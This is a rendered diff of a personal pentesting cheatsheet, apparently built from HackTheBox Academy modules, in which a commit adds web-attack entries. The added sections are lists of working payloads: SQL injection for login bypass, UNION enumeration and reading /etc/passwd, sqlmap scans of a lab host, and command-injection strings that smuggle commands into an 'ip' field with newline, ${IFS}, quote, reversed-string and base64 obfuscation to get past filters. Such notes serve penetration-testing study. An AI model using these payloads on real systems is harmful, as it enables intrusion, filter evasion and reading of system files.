

Before and after one commit to remiotore/remiotore, a Markdown page: docs/pentesting_cheatsheet.md, 2 parts joined by grey strips. Rendered like a GitHub page; blank space fills up the shorter version.

```diff
--- a/docs/pentesting_cheatsheet.md
+++ b/docs/pentesting_cheatsheet.md
@@ -54,6 +54,13 @@
     - [Oracle TNS Enumeration](#oracle-tns-enumeration)
   - [IPMI](#ipmi)
     - [IPMI Enumeration](#ipmi-enumeration)
+- [Web Application Attacks](#web-application-attacks)
+  - [FFUF (Web Fuzzing)](#ffuf-web-fuzzing)
+  - [Cross-site Scripting (XSS)](#cross-site-scripting-xss)
+  - [File Inclusion (LFI/RFI)](#file-inclusion-lfirfi)
+  - [File Upload Attacks](#file-upload-attacks)
+  - [SQL Injection](#sql-injection)
+  - [Command Injection](#command-injection)
 - [Pivoting, Tunneling, and Port Forwarding](#pivoting-tunneling-and-port-forwarding)
   - [Introduction](#introduction-2)
     - [Network Information Gathering](#network-information-gathering)
@@ -454,3 +497,19 @@
+## SQL Injection
+- `' OR '1'='1` - Basic Auth Bypass
+- `' order by 1-- -` - Detect number of columns
+- `cn' UNION select 1,@@version,3,4-- -` - DB Version Enumeration
+- `cn' UNION select 1,database(),2,3-- -` - Current Database Name
+- `cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -` - Read local file via SQLi
+- `sqlmap -u "http://target.htb/vuln.php?id=1" --batch` - Automated SQLi Scan
+- `sqlmap -r req.txt -p 'id' --level=5 --risk=3` - SQLMap with request file and high intensity
+
+## Command Injection
+- `ip=127.0.0.1; whoami` - Basic Semicolon Injection
+- `ip=127.0.0.1%0a whoami` - New Line Injection (%0a)
+- `ip=127.0.0.1${IFS}whoami` - Space Bypass using ${IFS}
+- `ip=127.0.0.1; u'n'a'm'e` - Command Obfuscation using quotes
+- `$(rev<<<'imaohw')` - Command Obfuscation using reverse string
+- `bash<<<$(base64 -d<<<dW5hbWUgLWE=)` - Command Obfuscation using Base64
 
 # [Pivoting, Tunneling, and Port Forwarding](https://academy.hackthebox.com/app/module/158)
 
```
Also changed, not shown: other parts of docs/pentesting_cheatsheet.md (+36 -0 lines).
